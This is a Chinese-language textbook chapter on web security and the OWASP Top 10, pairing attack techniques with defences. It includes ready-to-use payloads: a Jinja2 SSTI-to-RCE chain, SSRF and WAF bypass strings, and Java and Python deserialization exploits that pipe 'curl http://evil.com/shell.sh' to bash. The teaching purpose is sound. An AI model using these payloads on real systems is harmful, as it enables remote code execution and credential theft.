


# 第14章 Web安全-OWASP-Top10 - 深度拓展

## 一、现代Web应用架构与攻击面分析

### 1.1 前端安全架构

#### 1.1.1 单页应用（SPA）安全

单页应用将大量逻辑移至客户端，攻击面随之扩大：

**客户端渲染带来的XSS风险：** SPA框架（React、Vue、Angular）虽然对模板输出做了自动转义，但以下场景仍然危险：

- `v-html`（Vue）和 `dangerouslySetInnerHTML`（React）直接渲染HTML
- 动态URL拼接，如 `window.location.href = userInput`
- 第三方组件库中隐藏的DOM XSS

```javascript
// Vue中的XSS风险
// 危险：v-html直接渲染用户输入
<div v-html="userComment"></div>

// 安全：使用文本插值自动转义
<div>{{ userComment }}</div>
```

**本地存储安全隐患：** localStorage和sessionStorage同源共享，任何注入页面的脚本都能读取。因此JWT令牌不应存储在localStorage中——一个XSS就能窃取全部认证状态。正确做法是使用HttpOnly + Secure + SameSite=Strict的Cookie。

**npm供应链攻击：** 2022年 `ua-parser-js` 包被劫持，每周下载量超700万次，注入了加密挖矿和密码窃取代码。防御措施：

- 使用 `npm audit` 和 Snyk 扫描依赖
- 锁定依赖版本（`package-lock.json` 或 `pnpm-lock.yaml`）
- 引入 Socket.dev 检测包行为异常

#### 1.1.2 Content Security Policy（CSP）深度解析

CSP是防御XSS的第二道防线（第一道是输出编码），通过声明式白名单限制资源加载来源。

**核心指令：**

| 指令 | 作用 | 示例 |
|------|------|------|
| `default-src` | 未显式声明的资源默认策略 | `'self'` |
| `script-src` | JavaScript来源 | `'self' 'nonce-abc123'` |
| `style-src` | CSS来源 | `'self' 'unsafe-inline'` |
| `img-src` | 图片来源 | `'self' data: https:` |
| `connect-src` | fetch/XHR/WebSocket目标 | `'self' api.example.com` |
| `frame-src` | iframe来源 | `'none'` |
| `frame-ancestors` | 谁能嵌入本页面 | `'self'` |

**Nonce-based CSP vs Hash-based CSP：**

```html
<!-- Nonce方式：每次请求生成随机nonce -->
<script nonce="r4nd0mV4lu3">
  // 只有携带正确nonce的脚本才能执行
  console.log("trusted script");
</script>
```

CSP头部：`Content-Security-Policy: script-src 'nonce-r4nd0mV4lu3'; default-src 'self'`

Hash方式适合静态页面：`Content-Security-Policy: script-src 'sha256-abc123...'`。对动态页面，nonce更灵活。

**CSP绕过技术与防御：**

| 绕过技术 | 原理 | 防御 |
|----------|------|------|
| JSONP回调 | 利用允许的域名上的JSONP端点注入脚本 | 移除JSONP，使用CORS |
| base标签劫持 | `<base href="evil.com">`改变相对路径解析 | 添加 `base-uri 'self'` |
| data URI | `data:text/html,...`绕过script-src | 不在script-src中允许data: |
| 路径遍历 | `/api/../page`绕过路径限制 | 使用严格的路径匹配 |
| dangling markup | 未闭合标签吞掉后续内容 | 使用CSP的strict-dynamic |

**CSP Level 3 新特性：**

`strict-dynamic` 允许受信任脚本动态创建的其他脚本执行，不再需要逐一白名单CDN：

```yaml
Content-Security-Policy: script-src 'nonce-r4nd0m' 'strict-dynamic'
```

这比维护长长的域名白名单更安全也更实用。

#### 1.1.3 Subresource Integrity（SRI）

SRI通过哈希校验确保CDN资源未被篡改：

```html
<script src="https://cdn.example.com/lib.js"
  integrity="sha384-abc123..."
  crossorigin="anonymous"></script>
```

如果CDN被入侵、资源被替换，浏览器会因哈希不匹配而拒绝加载。SRI应与CSP配合使用，在CSP中添加 `require-sri-for script` 强制所有脚本必须有完整性校验。

### 1.2 后端API安全

#### 1.2.1 RESTful API安全

REST API是现代Web应用的骨架，其安全设计直接影响整个系统：

**认证与授权方案对比：**

| 方案 | 适用场景 | 安全性 | 性能 |
|------|----------|--------|------|
| API密钥 | 服务间调用、简单场景 | 低（无法限制操作范围） | 高 |
| OAuth 2.0 + JWT | 第三方授权、微服务 | 高（细粒度权限） | 中（无状态） |
| mTLS | 服务网格内部通信 | 最高（双向证书认证） | 低（TLS握手开销） |
| Session Cookie | 传统Web应用 | 中（依赖Session存储） | 中 |

**速率限制算法：**

- **令牌桶（Token Bucket）**：以固定速率向桶中添加令牌，每个请求消耗一个令牌。允许突发流量（桶满时）。
- **滑动窗口（Sliding Window）**：记录最近N秒内的请求数，精确但内存消耗大。
- **漏桶（Leaky Bucket）**：请求进入队列，以固定速率处理，强制平滑流量。

推荐实现：使用Redis + Lua脚本实现分布式速率限制，避免单机限制在集群中失效。

#### 1.2.2 GraphQL安全

GraphQL将查询能力暴露给客户端，带来独特的安全挑战：

**查询深度攻击：** 攻击者构造深层嵌套查询消耗服务器资源：

```graphql
# 深度攻击示例：嵌套100层
query {
  user {
    friends {
      friends {
        friends {
          # ... 重复100层
          name
        }
      }
    }
  }
}
```

防御：设置查询深度限制（通常6-10层），使用 `graphql-depth-limit` 等库。

**批量查询攻击：** 单次请求包含数百个操作：

```graphql
query op1 { user(id:1) { name } }
query op2 { user(id:2) { name } }
# ... 1000个查询
```

防御：限制单次请求的操作数量（通常不超过5-10个）。

**内省查询信息泄露：** 生产环境应禁用内省：

```javascript
// Apollo Server
const server = new ApolloServer({
  introspection: process.env.NODE_ENV !== 'production'
});
```

#### 1.2.3 gRPC安全

gRPC使用Protocol Buffers进行序列化，安全要点：

- **mTLS强制双向认证**：服务网格（Istio/Linkerd）原生支持
- **拦截器安全**：在gRPC拦截器中实现认证、授权、速率限制
- **反射攻击防护**：生产环境禁用gRPC反射服务
- **消息大小限制**：防止超大消息导致OOM

### 1.3 OWASP Top 10 2021 深度解析

#### 1.3.1 A01:2021 - 访问控制失效

访问控制失效连续5年位居榜首，根本原因是开发者假设客户端会遵守规则。

**IDOR（不安全的直接对象引用）实战分析：**

```http
# 正常请求：用户查看自己的订单
GET /api/orders/12345 HTTP/1.1

# IDOR攻击：修改ID查看他人订单
GET /api/orders/12346 HTTP/1.1
```

修复方法——在服务端校验对象归属：

```python
# 错误：直接查询ID
def get_order(order_id):
    return db.query(Order).get(order_id)

# 正确：同时验证所有者
def get_order(order_id, current_user):
    order = db.query(Order).get(order_id)
    if order.user_id != current_user.id:
        raise Forbidden("Access denied")
    return order
```

**UUID枚举问题：** UUID v4（随机）比自增ID安全，但不是万能的。如果UUID生成器使用了可预测的种子（如时间戳），仍然可被枚举。推荐使用UUID v4 + 所有者权限校验的双重防御。

**JWT安全深度分析：**

算法混淆攻击是最经典的JWT漏洞。JWT头部指定签名算法，如果服务端不验证算法类型：

```json
// 攻击者将RS256改为HS256
// 原始：{ "alg": "RS256", "typ": "JWT" }  （RSA公钥签名）
// 篡改：{ "alg": "HS256", "typ": "JWT" }  （HMAC对称签名）
```

攻击者用RSA公钥作为HMAC密钥签名，服务端用同一个公钥验证HMAC——签名匹配，攻击成功。

防御：服务端硬编码允许的算法列表：

```python
# python-jose
jwt.decode(token, public_key, algorithms=["RS256"])  # 明确指定，不要用"none"或通配
```

#### 1.3.2 A03:2021 - 注入

**SQL注入高级技术：**

二次注入（Second-order SQL Injection）：恶意数据先存入数据库（通过安全的参数化查询），后续读取后拼接到新的SQL中：

```python
# 第一步：注册用户名包含SQL注入payload（参数化查询，安全存储）
username = "admin'--"
db.execute("INSERT INTO users (name) VALUES (?)", (username,))

# 第二步：更新密码时，从数据库读出用户名拼接SQL（触发注入）
user = db.query("SELECT name FROM users WHERE id = ?", (uid,))
db.execute(f"UPDATE users SET password='new' WHERE name='{user.name}'")
# 等价于：UPDATE users SET password='new' WHERE name='admin'--'
# 结果：admin的密码被修改
```

防御：所有SQL操作都使用参数化查询，包括从数据库读出后再次使用的场景。

**SSTI（服务端模板注入）利用链：**

Jinja2 SSTI从信息泄露到RCE的完整利用链：

```python
# 1. 确认SSTI
{{7*7}}  # 返回49

# 2. 信息泄露
{{config.items()}}
{{self.__dict__}}

# 3. 获取基类链
{{''.__class__.__mro__[1].__subclasses__()}}
# 找到 <class 'os._wrap_close'> 或类似可利用的类

# 4. RCE
{{''.__class__.__mro__[1].__subclasses__()[INDEX].__init__.__globals__['popen']('id').read()}}
```

**SSRF攻击深度分析：**

云环境中SSRF特别危险，因为云实例可以通过元数据服务获取临时凭证：

```http
# AWS元数据服务（IMDSv1）
GET http://169.254.169.254/latest/meta-data/iam/security-credentials/ HTTP/1.1

# 攻击者通过SSRF获取IAM角色名和临时凭证
# 然后用这些凭证访问S3、DynamoDB等AWS资源
```

AWS IMDSv2通过强制使用PUT请求获取Token来防御SSRF——简单的GET请求无法获取元数据：

```http
# IMDSv2需要先获取Token
PUT http://169.254.169.254/latest/api/token
X-aws-ec2-metadata-token-ttl-seconds: 21600

# 然后用Token请求元数据
GET http://169.254.169.254/latest/meta-data/
X-aws-ec2-metadata-token: <token>
```

**SSRF绕过技术：**

| 技术 | 示例 | 原理 |
|------|------|------|
| IP十进制表示 | `http://2130706433` (=127.0.0.1) | 整数形式的IP绕过字符串过滤 |
| IPv6表示 | `http://[::1]` | 过滤器只检查IPv4 |
| DNS重绑定 | 先解析到允许的IP，再重新解析到内部IP | 利用两次解析的差异 |
| URL重定向 | `http://evil.com/redirect?url=http://169.254.169.254` | 通过开放重定向绕过 |
| 协议滥用 | `file:///etc/passwd`、`gopher://` | 利用URL scheme |

#### 1.3.3 A05:2021 - 安全配置错误

**HTTP安全头部完整配置：**

```nginx
# Nginx安全头部配置
add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
add_header X-Content-Type-Options "nosniff" always;
add_header X-Frame-Options "SAMEORIGIN" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
add_header Cross-Origin-Opener-Policy "same-origin" always;
add_header Cross-Origin-Resource-Policy "same-origin" always;
```

**CORS配置错误实例：**

```python
# 危险：反射Origin
@app.after_request
def add_cors(response):
    origin = request.headers.get('Origin')
    response.headers['Access-Control-Allow-Origin'] = origin  # 直接反射！
    response.headers['Access-Control-Allow-Credentials'] = 'true'
    return response

# 安全：白名单校验
ALLOWED_ORIGINS = {'https://app.example.com', 'https://admin.example.com'}

@app.after_request
def add_cors(response):
    origin = request.headers.get('Origin')
    if origin in ALLOWED_ORIGINS:
        response.headers['Access-Control-Allow-Origin'] = origin
        response.headers['Access-Control-Allow-Credentials'] = 'true'
    return response
```

当 `Access-Control-Allow-Origin: *` 与 `Access-Control-Allow-Credentials: true` 同时存在时，浏览器会拒绝请求——但错误配置往往通过反射Origin绕过了这个限制。

### 1.4 HTTP请求走私

HTTP请求走私（Request Smuggling）是利用前后端服务器对HTTP请求边界解析差异的攻击，危害极大：

**三种变体：**

- **CL.TE**：前端使用Content-Length，后端使用Transfer-Encoding
- **TE.CL**：前端使用Transfer-Encoding，后端使用Content-Length
- **TE.TE**：前后端都支持Transfer-Encoding，但对畸形处理不同

```http
# CL.TE走私示例
POST / HTTP/1.1
Host: example.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

前端看到Content-Length=13，认为请求体是 `0\r\n\r\nSMUGGLED`；后端看到Transfer-Encoding: chunked，认为chunk `0` 表示结束，`SMUGGLED` 被当作下一个请求的开头。

防御：统一使用HTTP/2（消除Transfer-Encoding歧义），在反向代理层规范化请求，禁用Transfer-Encoding的模糊解析。

### 1.5 反序列化漏洞

不安全的反序列化是远程代码执行的高危来源：

**Java反序列化（Apache Commons Collections）：**

```bash
# 使用ysoserial生成payload
java -jar ysoserial.jar CommonsCollections1 'curl http://evil.com/shell.sh|bash' | base64

# 发送给使用ObjectInputStream的Java应用
```

**Python pickle反序列化：**

```python
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('curl http://evil.com/shell.sh|bash',))

payload = pickle.dumps(Exploit())
# 反序列化时自动执行命令
pickle.loads(payload)
```

防御：永远不要反序列化不受信任的数据。使用JSON代替二进制序列化。Java中使用 `ObjectInputFilter`（JEP 290）限制可反序列化的类。

## 二、认证与会话管理安全

### 2.1 OAuth 2.0安全深度分析

**授权码拦截攻击：**

OAuth 2.0授权码流程中，授权码通过重定向URI传递。如果重定向URI验证不严格：

```http
# 攻击者诱导用户访问
https://auth.example.com/authorize?
  client_id=legit_app&
  redirect_uri=https://evil.com/callback&
  response_type=code&
  state=random123
```

如果授权服务器不严格匹配redirect_uri（允许子路径、通配符），授权码会被发送到攻击者服务器。

**PKCE防御机制：** PKCE（Proof Key for Code Exchange）通过挑战-应答机制防止授权码拦截：

```python
import hashlib, base64, secrets

# 客户端生成
code_verifier = secrets.token_urlsafe(64)  # 43-128字符随机串
code_challenge = base64.urlsafe_b64encode(
    hashlib.sha256(code_verifier.encode()).digest()
).rstrip(b'=').decode()

# 1. 授权请求携带code_challenge
# 2. 令牌交换时携带code_verifier
# 3. 服务器验证 SHA256(code_verifier) == code_challenge
```

即使攻击者截获了授权码，没有code_verifier也无法换取令牌。

**OAuth混淆攻击：** 当应用接受多个OAuth提供商时，攻击者可以用一个提供商的ID Token冒充另一个提供商的用户。防御：始终验证令牌的 `iss`（签发者）和 `aud`（受众）声明。

### 2.2 会话管理安全

**Session Fixation攻击流程：**

```text
1. 攻击者获取一个有效的SessionID（如通过正常访问网站）
2. 攻击者诱导受害者使用该SessionID访问登录页面
   URL: https://example.com/login?sessionid=attacker_session_id
3. 受害者用该SessionID登录成功
4. 攻击者使用同一个SessionID访问网站，获得受害者的已认证会话
```

防御：登录成功后必须重新生成SessionID：

```python
# Flask示例
from flask import session
session.regenerate()  # 登录成功后重新生成session ID
session['user_id'] = user.id
```

**会话令牌安全配置：**

```powershell
Set-Cookie: session=abc123;
  HttpOnly;      # 禁止JavaScript访问
  Secure;        # 仅HTTPS传输
  SameSite=Strict;  # 禁止跨站发送
  Path=/;        # 限制Cookie作用域
  Max-Age=3600;  # 1小时过期
```

`SameSite=Strict` 比 `Lax` 更安全——`Lax` 允许顶级导航的GET请求携带Cookie，仍有CSRF风险。但 `Strict` 会影响用户体验（从外部链接点击进入时不会携带Cookie），需要根据业务场景选择。

## 三、Web安全测试方法论

### 3.1 渗透测试方法论

**OWASP Testing Guide 四阶段模型：**



**信息收集实战：**

```bash
# 子域名枚举（多工具交叉验证）
subfinder -d target.com -o subdomains.txt
amass enum -passive -d target.com >> subdomains.txt
cat subdomains.txt | sort -u | httpx -silent -status-code -title

# 技术栈识别
whatweb https://target.com
wappalyzer-cli https://target.com

# 目录枚举（递归扫描）
feroxbuster -u https://target.com -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt \
  --depth 3 --threads 50 --filter-status 404

# 参数发现
arjun -u https://target.com/api/search
```

**认证测试要点：**

- 凭证填充（Credential Stuffing）：用泄露的密码数据库尝试登录
- 暴力破解防护检测：是否有速率限制、账户锁定、CAPTCHA
- 密码重置流程：Token是否可预测、是否可重用、是否绑定到用户
- 多因素认证绕过：是否可以跳过第二步、响应中是否泄露MFA Token

### 3.2 自动化安全测试工具链

**DAST（动态应用安全测试）：**

| 工具 | 特点 | 适用场景 |
|------|------|----------|
| Burp Suite | 行业标准，插件生态丰富 | 手动测试+自动化扫描 |
| OWASP ZAP | 免费开源，API完善 | CI/CD集成 |
| Nuclei | 模板驱动，社区模板库庞大 | 大规模漏洞扫描 |
| Nikto | 老牌Web服务器扫描器 | 快速发现配置问题 |

**SAST（静态应用安全测试）：**

| 工具 | 语言支持 | 特点 |
|------|----------|------|
| Semgrep | 30+语言 | 自定义规则简单，误报率低 |
| CodeQL | Java/JS/Python/Go等 | GitHub深度集成，语义分析强 |
| SonarQube | 30+语言 | 质量+安全双维度 |
| Bandit | Python | Python专用，配置简单 |

**IAST（交互式应用安全测试）：** IAST在应用内部运行，通过插桩（Instrumentation）监控数据流，兼具SAST的覆盖率和DAST的准确性。适合CI/CD中的安全门禁。

### 3.3 漏洞扫描自动化流水线

```yaml
# GitLab CI安全扫描流水线示例
stages:
  - sast
  - dependency-check
  - dast

semgrep:
  stage: sast
  script:
    - semgrep scan --config=auto --json -o semgrep-results.json

dependency-check:
  stage: dependency-check
  script:
    - npm audit --json > npm-audit.json
    - pip-audit --format=json > pip-audit.json

nuclei-scan:
  stage: dast
  script:
    - nuclei -u $TARGET_URL -t cves/ -t vulnerabilities/ -json -o nuclei-results.json
```

## 四、防御技术深度解析

### 4.1 Web应用防火墙（WAF）

**WAF检测原理：**

基于规则的WAF（如ModSecurity + OWASP CRS）通过正则表达式匹配已知攻击模式：

```text
# OWASP CRS规则示例：检测SQL注入
SecRule ARGS "@rx (?i:(?:union\s+(?:all\s+)?select|select\s+.*\s+from))" \
    "id:942100,phase:2,block,msg:'SQL Injection Attack Detected'"
```

**WAF绕过技术详解：**

| 绕过技术 | 示例 | 原理 |
|----------|------|------|
| URL编码 | `%27%20OR%201=1--` | 单层编码绕过，WAF未递归解码 |
| 双重URL编码 | `%2527%2520OR%25201=1--` | WAF只解码一层 |
| Unicode编码 | `%u0027` | 非标准编码格式 |
| 大小写混合 | `UnIoN sElEcT` | 规则未使用不区分大小写匹配 |
| 注释混淆 | `UN/**/ION SEL/**/ECT` | 利用SQL忽略内联注释的特性 |
| 分块传输 | `Transfer-Encoding: chunked` | WAF不重组分块请求体 |
| HPP | `id=1&id=1' OR '1'='1` | WAF和应用使用不同参数 |
| HTTP/2走私 | 利用HTTP/2到HTTP/1.1的转换 | WAF理解HTTP/2，后端理解HTTP/1.1 |

**WAF在现代架构中的位置：**



WAF不是银弹——它是纵深防御的一层，不能替代输入验证、参数化查询和输出编码。

### 4.2 运行时应用自我保护（RASP）

RASP将安全传感器嵌入应用运行时，能直接看到应用内部的执行上下文：

**RASP vs WAF对比：**

| 维度 | WAF | RASP |
|------|-----|------|
| 部署位置 | 网络层（反向代理） | 应用内部（运行时） |
| 上下文感知 | 仅HTTP请求 | 完整应用上下文 |
| 误报率 | 高（基于模式匹配） | 低（知道数据实际用途） |
| 性能影响 | 网络延迟 | 应用运行时开销（通常1-3%） |
| 绕过难度 | 较容易（编码变换等） | 极难（需要绕过语言运行时） |

### 4.3 API安全网关

现代API安全网关（如Kong、Apigee、AWS API Gateway）提供多层防护：

- **请求验证**：基于OpenAPI规范自动校验请求格式、参数类型、必填字段
- **速率限制**：令牌桶、滑动窗口等算法，支持按用户/IP/端点差异化限流
- **身份验证**：OAuth 2.0、API密钥、mTLS，支持多种认证方式并存
- **威胁检测**：机器学习驱动的异常行为检测，识别自动化攻击和爬虫
- **数据保护**：响应数据脱敏、PII自动检测和遮蔽

## 五、行业前沿动态

### 5.1 OWASP API Security Top 10 2023

API已成为现代Web应用的核心，OWASP专门发布了API安全风险清单：

| 排名 | 风险 | 核心问题 |
|------|------|----------|
| API1 | 对象级别授权失效 | 类似IDOR，API端点未校验对象归属 |
| API2 | 认证失效 | 弱API密钥、JWT配置错误、缺少速率限制 |
| API3 | 对象属性级别授权失效 | 用户通过API修改不应访问的字段 |
| API4 | 资源消耗不受限 | 无速率限制、无分页限制、返回过多数据 |
| API5 | 功能级别授权失效 | 普通用户访问管理员API端点 |
| API6 | 不受限的敏感业务流 | 自动化滥用业务逻辑（如批量注册） |
| API7 | 服务端请求伪造 | API作为SSRF的跳板 |
| API8 | 安全配置错误 | 调试端点暴露、详细错误信息泄露 |
| API9 | 资产管理不当 | 影子API和僵尸API缺乏安全管控 |
| API10 | 不安全的消费端API | 未验证第三方API响应的安全性 |

### 5.2 供应链安全

**依赖混淆攻击（Dependency Confusion）：** Alex Birsan在2021年发现，如果私有包名与公共仓库（npm/PyPI）中的包名冲突，包管理器可能优先安装公共（恶意）版本。防御：使用scope前缀（如 `@company/package`）、配置私有仓库优先级。

**Sigstore：** 无密钥签名框架，使用短期证书（通过Fulcio CA签发）+ Rekor透明日志。开发者不需要管理长期密钥，签名过程与OIDC身份绑定。Cosign工具用于容器镜像签名，Gitsign用于Git提交签名。

**SBOM（Software Bill of Materials）：** 记录软件中所有组件、版本、许可证。格式标准：SPDX（Linux Foundation）和CycloneDX（OWASP）。在发现Log4Shell类漏洞时，SBOM能快速确定受影响的系统。

### 5.3 浏览器安全新特性

**Trusted Types：** 从根源上防止DOM XSS，强制所有危险的DOM操作（`innerHTML`、`eval`、`document.write`）必须通过可信类型对象：

```javascript
// 策略定义
const policy = trustedTypes.createPolicy('myPolicy', {
  createHTML: (input) => DOMPurify.sanitize(input)
});

// 使用策略创建可信类型
element.innerHTML = policy.createHTML(userInput);

// 直接赋值字符串会抛出TypeError
element.innerHTML = userInput;  // TypeError!
```

启用Trusted Types：`Content-Security-Policy: require-trusted-types-for 'script'`

**WebAuthn：** 无密码认证标准，使用公钥密码学。注册时设备生成密钥对，私钥存储在安全硬件（TPM/Secure Enclave）中。认证时服务器发送挑战，设备用私钥签名。完全免疫钓鱼攻击——认证绑定到域名，无法在伪造网站上使用。

### 5.4 AI驱动的安全测试

AI正在改变Web安全攻防格局：

- **AI辅助漏洞发现**：使用LLM分析源代码发现逻辑漏洞、生成Fuzzing策略
- **智能模糊测试**：基于AI的变异策略，比随机变异更高效地发现边界情况
- **自动化漏洞修复**：AI建议的代码修复方案，但仍需人工审核
- **对抗性AI**：攻击者用AI生成更隐蔽的恶意流量、绕过基于ML的检测

注意：AI生成的漏洞利用代码需要人工验证——AI可能产生看似合理但实际无效的payload。

## 六、推荐学习资源

### 6.1 书籍

| 书名 | 作者 | 侧重点 |
|------|------|--------|
| 《The Web Application Hacker's Handbook》 | Dafydd Stuttard, Marcus Pinto | Web安全测试权威指南 |
| 《Real-World Bug Hunting》 | Peter Yaworski | 真实漏洞赏金案例分析 |
| 《Tangled Web》 | Michal Zalewski | 浏览器安全深度解析 |
| 《Web Application Obfuscation》 | Mario Heiderich 等 | WAF绕过和混淆技术 |
| 《API Security in Action》 | Neil Madden | API安全设计与实现 |
| 《Alice and Bob Learn Application Security》 | Tanya Janca | 应用安全入门 |

### 6.2 在线资源与练习平台

| 资源 | URL | 用途 |
|------|-----|------|
| OWASP | https://owasp.org/ | Web安全标准和指南 |
| PortSwigger Web Security Academy | https://portswigger.net/web-security | 免费Web安全学习+实验 |
| OWASP Juice Shop | https://owasp.org/www-project-juice-shop/ | 靶场，覆盖OWASP Top 10 |
| HackTheBox | https://www.hackthebox.com/ | 渗透测试实战平台 |
| PentesterLab | https://pentesterlab.com/ | Web安全练习 |
| HackerOne Hacktivity | https://hackerone.com/hacktivity | 公开漏洞赏金报告 |
| Bugcrowd University | https://www.bugcrowd.com/hackers/bugcrowd-university/ | 免费漏洞赏金培训 |

### 6.3 工具速查

| 工具 | 用途 | 链接 |
|------|------|------|
| Burp Suite | Web安全测试套件 | https://portswigger.net/burp |
| OWASP ZAP | 开源Web安全扫描器 | https://www.zaproxy.org/ |
| Nuclei | 模板驱动漏洞扫描 | https://github.com/projectdiscovery/nuclei |
| SQLMap | 自动化SQL注入 | https://sqlmap.org/ |
| XSStrike | XSS检测 | https://github.com/s0md3v/XSStrike |
| ffuf | 快速Web模糊器 | https://github.com/ffuf/ffuf |
| Subfinder | 子域名发现 | https://github.com/projectdiscovery/subfinder |
| httpx | HTTP探测 | https://github.com/projectdiscovery/httpx |
| Arjun | HTTP参数发现 | https://github.com/s0md3v/Arjun |
| Commix | 命令注入利用 | https://github.com/commixproject/commix |
| ysoserial | Java反序列化payload生成 | https://github.com/frohoff/ysoserial |
| Ghidra | 逆向工程（WebAssembly分析） | https://ghidra-sre.org/ |

## 七、思考题与实践

### 7.1 思考题

1. **CSP的局限性：** CSP能完全防止XSS吗？如果应用使用大量内联脚本和第三方库，如何设计一个实用的CSP策略？

2. **JWT vs Session：** 在微服务架构中，JWT的无状态特性带来什么安全权衡？JWT令牌泄露后的应急响应流程是什么？

3. **SSRF防御纵深：** 除了URL白名单和IMDSv2，还有哪些防御SSRF的层次？DNS重绑定攻击如何防御？

4. **HTTP/2与安全：** HTTP/2引入了哪些新的安全问题（如HPACK旁路、流复用攻击）？HTTP/3又带来了什么变化？

5. **反序列化防御：** 为什么"永远不反序列化不受信任的数据"在实践中难以做到？有哪些安全的序列化替代方案？

### 7.2 实践建议

1. **搭建靶场环境**：部署OWASP Juice Shop，逐一完成所有挑战，记录每种漏洞的发现和利用过程
2. **PortSwigger Labs**：完成Web Security Academy中至少80%的实验，重点关注认证、注入、SSRF章节
3. **Burp Suite实战**：使用Burp Suite对本地靶场进行完整渗透测试，从信息收集到报告生成
4. **WAF绕过实验**：搭建ModSecurity + OWASP CRS，尝试用本文介绍的绕过技术突破防护
5. **漏洞赏金入门**：在HackerOne/Bugcrowd上选择开源项目，从信息收集开始，逐步发现真实漏洞
6. **代码审计**：阅读一个开源Web框架的安全相关代码，理解安全机制的实现原理

---

> **本章寄语**：Web安全是攻防对抗最激烈的前沿阵地。OWASP Top 10是起点而非终点——真正的安全能力来自对Web应用架构的深刻理解、对攻击技术的持续研究、以及对防御体系的系统化建设。从靶场练习开始，逐步深入真实世界的漏洞挖掘，在实践中磨砺你的安全直觉。
